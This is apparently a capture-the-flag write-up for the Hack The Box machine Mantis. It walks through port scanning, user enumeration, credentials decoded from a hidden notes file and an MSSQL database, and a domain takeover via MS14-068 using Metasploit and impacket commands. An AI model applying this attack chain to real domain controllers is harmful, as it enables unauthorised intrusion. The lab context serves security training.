










# Introdution

Mantis was an interesting box with a somewhat realistic chain of attack, it started off with two webservers both IIS one had Orchard CMS the other had a secret directory which contained some credentials which you could use to access MSSQL db which you then used to find the plaintext credentials for a user james.
The box was pretty old and vulnerable to MS14-068 which we exploited to get a root-shel.
# Nmap

---

## Information Recon

Ports tcp open in nmap format

```bash
PORT      STATE SERVICE      REASON
53/tcp    open  domain       syn-ack
88/tcp    open  kerberos-sec syn-ack
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
389/tcp   open  ldap         syn-ack
445/tcp   open  microsoft-ds syn-ack
1433/tcp  open  ms-sql-s     syn-ack
8080/tcp  open  http-proxy   syn-ack
49152/tcp open  unknown      syn-ack
49153/tcp open  unknown      syn-ack
49155/tcp open  unknown      syn-ack
49157/tcp open  unknown      syn-ack
```

Ports services and versions nmap format

```bash
# Nmap 7.93 scan initiated Wed Jul 26 15:48:15 2023 as: nmap -p 50255,139,3269,88,8080,464,49153,389,3268,135,49158,49186,49154,49152,47001,49155,636,49166,53,593,445,1337,49157,5722,49170,9389,1433 -sC -sV -oA scans/Mantis 10.129.140.187
Nmap scan report for 10.129.140.187
Host is up (0.21s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-07-26 12:48:25Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open  tcpwrapped
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1337/tcp  open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.140.187:1433: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: MANTIS
|     DNS_Domain_Name: htb.local
|     DNS_Computer_Name: mantis.htb.local
|     DNS_Tree_Name: htb.local
|_    Product_Version: 6.1.7601
|_ssl-date: 2023-07-26T12:49:44+00:00; -7h00m00s from scanner time.
| ms-sql-info: 
|   10.129.140.187:1433: 
|     Version: 
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-07-26T12:29:09
|_Not valid after:  2053-07-26T12:29:09
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc        Microsoft Windows RPC
8080/tcp  open  http         Microsoft IIS httpd 7.5
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        Microsoft Windows RPC
49166/tcp open  msrpc        Microsoft Windows RPC
49170/tcp open  msrpc        Microsoft Windows RPC
49186/tcp open  msrpc        Microsoft Windows RPC
50255/tcp open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.140.187:50255: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: MANTIS
|     DNS_Domain_Name: htb.local
|     DNS_Computer_Name: mantis.htb.local
|     DNS_Tree_Name: htb.local
|_    Product_Version: 6.1.7601
| ms-sql-info: 
|   10.129.140.187:50255: 
|     Version: 
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 50255
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-07-26T12:29:09
|_Not valid after:  2053-07-26T12:29:09
|_ssl-date: 2023-07-26T12:49:44+00:00; -7h00m00s from scanner time.
Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   210: 
|_    Message signing enabled and required
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: mantis
|   NetBIOS computer name: MANTIS\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: mantis.htb.local
|_  System time: 2023-07-26T08:49:29-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: -6h25m42s, deviation: 1h30m43s, median: -7h00m00s
| smb2-time: 
|   date: 2023-07-26T12:49:27
|_  start_date: 2023-07-26T12:29:02

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 26 15:49:50 2023 -- 1 IP address (1 host up) scanned in 95.81 seconds
```

Ports UDP nmap format

```bash
Discovered open port 53/udp on 10.129.140.187                                  
```

---

# Enumeration

## Port 8080 - HTTP (IIS)



Website is being runned by Orchard CMS

Directory searching with gobuster returns:
```bash
/archive              (Status: 200) [Size: 2866]
/blogs                (Status: 200) [Size: 2913]
/admin                (Status: 302) [Size: 163] [--> /Users/Account/AccessDenied?ReturnUrl=%2Fadmin]
/tags                 (Status: 200) [Size: 2453]
/Archive              (Status: 200) [Size: 2866]
/pollArchive          (Status: 200) [Size: 2870]
/Blogs                (Status: 200) [Size: 2913]
/newsarchive          (Status: 200) [Size: 2870]
/news_archive         (Status: 200) [Size: 2871]
/Admin                (Status: 302) [Size: 163] [--> /Users/Account/AccessDenied?ReturnUrl=%2FAdmin]
/*checkout*           (Status: 400) [Size: 3420]
/news-archive         (Status: 200) [Size: 2871]
/shoutbox_archive     (Status: 200) [Size: 2875]
/newsletter_archive   (Status: 200) [Size: 2877]
/fsb_archive          (Status: 200) [Size: 2870]
/poll_archive         (Status: 200) [Size: 2871]
/*docroot*            (Status: 400) [Size: 3420]
/fortune500_archive   (Status: 200) [Size: 2877]
/*                    (Status: 400) [Size: 3420]
/press_archive        (Status: 200) [Size: 2872]
```

We can easily deduce that archive can have any prefix, also directories are case-insensitive because of IIS.

---

## Port 389 - LDAP


---

## Port 88 - Kerberos

I fire off a kerbrute in the background and it finds some users:

```bash
   __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/26/23 - Ronnie Flathers @ropnop

2023/07/26 16:40:21 >  Using KDC(s):
2023/07/26 16:40:21 >   10.129.141.53:88

2023/07/26 16:40:22 >  [+] VALID USERNAME:       james@htb.local
2023/07/26 16:41:16 >  [+] VALID USERNAME:       administrator@htb.local
2023/07/26 16:42:12 >  [+] VALID USERNAME:       mantis@htb.local
```

----

## Port 1337 - HTTP

This is another Microsoft IIS server, running another scan on this yields:
```bash
/secure_notes
/orchard
```



The `web.config` 404s

`/secure_notes` contains
```bash
dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt:
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.
[trunc]... -> trunc because of whitespace
Credentials stored in secure format
OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
SQL Server sa credentials file namez
```

The base64 in the filename decodes to: `m$$ql_S@_P@ssW0rd!` and the username is `sa`

The creds for orchard cms decode to `@dm!n_P@ssW0rd!`

---

## Port 1433 - MSSQL

We can access the mssql server using impacket

I was encountering some stability issues with the box and had to restart it.

I prefer to use a GUI to interact with MSSQL so I'll fire up DBeaver

If you get an SSL error that mentions TLS 1.0 and TLS 1.1, you can fix it using: https://github.com/dbeaver/dbeaver/issues/12668#issuecomment-909301270 on Kali(may vary, if this doesn't work one of the others in the repo issue will)

Anyway, this link told me where the credentials are stored: https://weblogs.asp.net/bleroy/recovering-the-admin-password-in-orchard

So I took a look in `blog_Orchard_Users_UserPartRecord`, and found some creds:



One is a salted hash the other is plaintext:

- james:J@m3s_P@ssW0rd!
- admin:AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A== (salt is UBwWF1CQCsaGc/P7jIR/kg==)

I tried the credentials on the website, but it errored out! LDAP was also a bust

---

# Bloodhound?

Running bloodhound-python(ingestor) to gather information:


Analysing the information we find that the user james can RDP into the box:


I don't see how that's helpful since there's no RDP service available on the box by the looks of it? Nothing else sticks out.

---

## The Breakthrough

If we had paid attention to the Windows Version Information that CrackMapExec prints we would have noticed that the Service Pack stands out
```bash
ma1ware@shadow:~/pentest/htb/boxes/Mantis$ crackmapexec smb mantis -u 'james' -p creds --shares
/home/ma1ware/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.12) or chardet (5.1.0)/charset_normalizer (2.0.12) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
SMB         mantis.htb.local 445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         mantis.htb.local 445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd! 
SMB         mantis.htb.local 445    MANTIS           [+] Enumerated shares
SMB         mantis.htb.local 445    MANTIS           Share           Permissions     Remark
SMB         mantis.htb.local 445    MANTIS           -----           -----------     ------
SMB         mantis.htb.local 445    MANTIS           ADMIN$                          Remote Admin
SMB         mantis.htb.local 445    MANTIS           C$                              Default share
SMB         mantis.htb.local 445    MANTIS           IPC$                            Remote IPC
SMB         mantis.htb.local 445    MANTIS           NETLOGON        READ            Logon server share 
SMB         mantis.htb.local 445    MANTIS           SYSVOL          READ            Logon server share 
ma1ware@shadow:~/pentest/htb/boxes/Mantis$ 

```

Initially I thought that there might be a possible eternalblue attack but  I quickly discarded that after a quick check

Googling around with the Windows version info we get MS14-068 which affects domain controllers? Coincidence I think not.

The exploit also exists in metasploit so we'll do the exploit both ways.
## Metasploit Framework

Naturally as I was about to move onto the exploitation process the box crashed again! So starting up a new instance of the box

First we need to get the sid of the user:
```bash
ma1ware@shadow:~/pentest/htb/boxes/Mantis$ rpcclient -U 'james' 10.129.165.179
Password for [WORKGROUP\james]:
rpcclient $> lookupnames james
james S-1-5-21-4220043660-4019079961-2895681657-1103 (User: 1)
rpcclient $> 
```

I also tried with impacket and that also worked "somewhat"
```bash
ma1ware@shadow:~/pentest/htb/boxes/Mantis$ impacket-lookupsid htb.local/james@10.129.165.179
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 10.129.165.179
[*] StringBinding ncacn_np:10.129.165.179[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4220043660-4019079961-2895681657
498: HTB\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: HTB\Administrator (SidTypeUser)
501: HTB\Guest (SidTypeUser)
502: HTB\krbtgt (SidTypeUser)
512: HTB\Domain Admins (SidTypeGroup)
513: HTB\Domain Users (SidTypeGroup)
514: HTB\Domain Guests (SidTypeGroup)
515: HTB\Domain Computers (SidTypeGroup)
516: HTB\Domain Controllers (SidTypeGroup)
517: HTB\Cert Publishers (SidTypeAlias)
518: HTB\Schema Admins (SidTypeGroup)
519: HTB\Enterprise Admins (SidTypeGroup)
520: HTB\Group Policy Creator Owners (SidTypeGroup)
521: HTB\Read-only Domain Controllers (SidTypeGroup)
553: HTB\RAS and IAS Servers (SidTypeAlias)
571: HTB\Allowed RODC Password Replication Group (SidTypeAlias)
572: HTB\Denied RODC Password Replication Group (SidTypeAlias)
1000: HTB\MANTIS$ (SidTypeUser)
1101: HTB\DnsAdmins (SidTypeAlias)
1102: HTB\DnsUpdateProxy (SidTypeGroup)
1103: HTB\james (SidTypeUser)
1104: HTB\SQLServer2005SQLBrowserUser$MANTIS (SidTypeAlias)
ma1ware@shadow:~/pentest/htb/boxes/Mantis$
```

Setting up metasploit and running we succeed!



Yeah, no it didn't work 
```bash
ma1ware@shadow:~/pentest/htb/boxes/Mantis$ KRB5CCNAME=20230726183221_default_10.129.165.179_mit.kerberos.cca_175363.bin impacket-psexec -k -no-pass james@htb.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] SMB SessionError: STATUS_MORE_PROCESSING_REQUIRED({Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.)
```

Right, this is awkward, let's just pretend this never happened.

Just kidding, it's just an issue with our time, let's sync it with the dc and generate the ticket again
```bash
$ sudo rdate -n 10.129.165.179 
```

Re-generating the exploit, and boom we get a shell




## Non-metasploit method

Another way to exploit this would be to use the `impacket-goldenPac` script.



If you really felt like it you can also use the exploit on SecWiki since that isn't as automated as much.

Anyway that's the box!
